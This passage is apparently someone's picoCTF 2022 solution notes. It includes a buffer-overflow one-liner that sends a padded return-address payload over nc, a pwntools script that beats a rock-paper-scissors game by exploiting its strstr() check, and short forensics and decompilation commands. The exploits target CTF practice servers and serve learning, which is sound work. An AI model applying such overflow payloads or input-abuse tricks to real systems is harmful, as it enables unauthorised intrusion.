 ```python
    except:
        pass
print(dec)
```
### buffer overflow 1
```sh
(sleep 2;echo -e "AAABBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLLMMMNNNOO\xf6\x91\x04\x08";sleep 2) | nc saturn.picoctf.net 64864
```


```

```
### Fresh Java
use jd-gui
regex
```sh
cat decompile.txt | grep -Po "(?<=')(\w|\W)*(?=')" | tr -d "\n" | rev
```

### RPS
original: https://www.it-sec.fail/picoctf-2022-binary-exploitation-rps/
1.  Checking the code (as mentioned in the hint of the challenge)
    
2.  In the `play` function we can see, that the program uses the `strstr()` method to check who wins.  
    This is the line in the code
    
    ```c++
    if (strstr(player_turn, loses[computer_turn])) {
    ```
    
3.  This is the [manual](https://www.cplusplus.com/reference/cstring/strstr/) of the `strstr()` method.
    
    ```text
    str1
    C string to be scanned.
    str2
    C string containing the sequence of characters to match.
    ```
    
4.  If we send every possible anwser, we should always win 🙂
    
5.  So you should get the flag if you send: `rockscissorspaper`

```python
from pwn import *

# connect to the server
s = remote('saturn.picoctf.net', 56981)
for _ in range(6):
        print(s.recvuntil(b"exit the program"))
        print(s.sendline(b"1"))
        print(s.recvuntil(b"(rock/paper/scissors):"))
        print(s.sendline(b"rockpaperscissors"))

```
#### catatan
The _C_ library function long int _strtol_(const char *str, char endptr, int base) converts the initial part of the string in str to a long int value*
### Sleuthkit Apprentice
```sh
mmls disk.flag.img
```